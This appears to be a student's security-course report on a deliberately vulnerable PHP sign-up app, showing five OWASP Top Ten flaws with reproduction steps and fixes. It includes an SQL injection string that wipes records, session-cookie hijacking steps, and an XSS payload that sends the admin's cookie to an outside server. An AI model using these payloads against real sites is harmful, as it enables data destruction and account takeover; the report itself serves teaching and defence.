 # The Report

This project is done with PHP in a LAMP environment.<br> 
Whats required:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox and the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” add-on to Firefox):

1. Log in to the Admin pages, look who have signed-up, and click the "home" link.
2. You are now back at the starting page, which doesn't use SSL.
3. But with OWASP ZAP you can see that the session-cookie is still in use, and the session-id thus visible if someone would have the possibility to eavesdrop. Copy the session-id (see [README.md](README.md))!
  * If you were using the Firefox browser for this, restart it before the next step...
4. Go to the Admin login-page with Firefox, but don’t log in! 
5. Open “Advanced Cookie Manager” and enter the cookie-session-id you captured with OWASP ZAP into the "Value" box (see [README.md](README.md)), replacing the existing one (delete first, then paste). Save the change.
6. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the Apache logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Go to the SignUp page and fill in the requested information, including a (imaginary) credit card number.
2. Press Submit, and capture the credit card number with OWASP ZAP (see [README.md](README.md)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
